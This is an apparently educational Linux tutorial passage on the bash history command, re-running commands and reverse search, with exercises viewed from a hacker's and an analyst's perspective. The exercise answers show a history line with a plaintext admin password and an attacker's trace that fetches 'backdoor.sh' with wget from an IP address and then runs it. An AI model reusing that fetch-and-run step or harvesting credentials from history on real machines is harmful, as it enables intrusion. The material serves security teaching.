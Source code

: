 If we inspect the file, we can see all the history of our previously typed commands. There is also a command that displays the same thing: ``history``.

```sh
student@student:~$ history
    1  sudo -l
    2  dh
    3  ls
    4  cd /var
    5  ls
    6  cd /www
    7  cd www
    8  ls
```

When it is executed, history returns all the commands and their entry number (first column). We can use this number to re-run commands without having to type them again. For example, if you want to re-execute command number 42, you just have to enter :

````
student@student:~$ !42
````

The keyboard shortcut Ctrl+R allows you to enter the search mode in the history. The prompt looks like this:

```sh
(reverse-i-search):
```

You just have to enter the first characters of the command you want to search for so that the prompt offers you the most recent commands corresponding to your keystrokes, then Enter when you have found the right command.

> ⚠️ While this file can be useful for us users, it is also useful for hackers. Sometimes the history can 
> contain important information such as credentials that could help them escalate privileges.
>
> ⚠️ Also, when a machine has been compromised, it can be interesting for the analyst to check if the hacker has left some traces in the history.


### Exercises :

1. **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file. 
> Your answer:  118  telenet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
>   119  telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
1. **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file. 
> 106  su root or wget http://10.88.56.53/backdoor.sh
>    96  chmod +x backdoor.sh
>    97  ./backdoor.sh

## Custom aliases 
Linux users often need to use one command over and over again. Typing or copying the same command again and again reduces your productivity and distracts you from what you are actually doing.
